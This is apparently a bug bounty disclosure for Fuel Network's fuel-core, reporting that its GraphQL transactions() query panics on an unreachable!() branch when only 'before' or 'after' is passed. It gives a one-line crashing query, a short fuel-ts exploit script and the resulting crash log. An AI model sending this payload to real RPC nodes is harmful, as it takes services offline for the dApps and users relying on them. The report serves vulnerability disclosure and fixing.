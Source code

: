 
# Public RPC node craches via GraphQL API

Submitted on Sun Jun 23 2024 19:31:25 GMT-0400 (Atlantic Standard Time) by @sventime for [Attackathon | Fuel Network](https://immunefi.com/bounty/fuel-network-attackathon/)

Report ID: #32486

Report type: Blockchain/DLT

Report severity: Medium

Target: https://github.com/FuelLabs/fuel-core/tree/8b1bf02103b8c90ce3ef2ba715214fb452b99885

Impacts:
- RPC API crash affecting projects with greater than or equal to 25% of the market capitalization on top of the respective layer

## Description
## Brief/Intro
A vulnerability in the public RPC node's GraphQL API allows attackers to crash the node by exploiting an `unreachable!()` macro in the `transactions()` query pagination logic.

## Vulnerability Details
The vulnerability exists in the pagination logic of the `transactions()` query in `crates/fuel-core/src/schema.rs:129:17:`:
```rust
let (count, direction) = if let Some(first) = first {
    (first, IterDirection::Forward)
} else if let Some(last) = last {
    (last, IterDirection::Reverse)
} else {
    // Unreachable because of the check `(None, None, None, None)` above
    unreachable!()
};
```
This code incorrectly assumes either `first` or `last` must be `Some`. However, valid scenarios exist where both are `None` while `after` or `before` or both are `Some`, leading to a panic when the `unreachable!()` macro is hit.

## Impact Details
1. Denial of Service: Repeated exploitation can cause extended RPC node downtime.
2. dApp and Front-end Failures: All dApps and front-end applications relying on the affected RPC will crash or become non-functional.
3. Reduced Trust: Frequent outages may decrease user confidence.

## References
https://github.com/FuelLabs/fuel-core/blob/8b1bf02103b8c90ce3ef2ba715214fb452b99885/crates/fuel-core/src/schema.rs#L129

        
## Proof of concept
## Proof of Concept

### Steps to reproduce

1. Compile fuel-core in release and run local or test node:

2. Open http://localhost:4000/v1/playground  and run query:
```
query {
  transactions(before: "00000000#0x00"){
    __typename
  }
}
```
3. (Optional) You can use fuel-ts to exploit:
```
import { Provider } from "@fuel-ts/account";

async function exploit(){
  const provider = await Provider.create('http://127.0.0.1:4000/v1/graphql');

  await provider.getTransactions({before: "00000000#0x00"});
}

exploit().then(() => {}).catch(console.error);
```

> Note: You can use any values for `before` and `after` just to pass validation, the only rule is not to include `first` and `last`, but one of or both `before` and `after`.

### Result

Node crashed with error:
```
thread 'tokio-runtime-worker' panicked at crates/fuel-core/src/schema.rs:129:17:
internal error: entered unreachable code
note: run with `RUST_BACKTRACE=1` environment variable to display a backtrace
[1]    27170 abort      ./target/release/fuel-core run --db-type in-memory
```
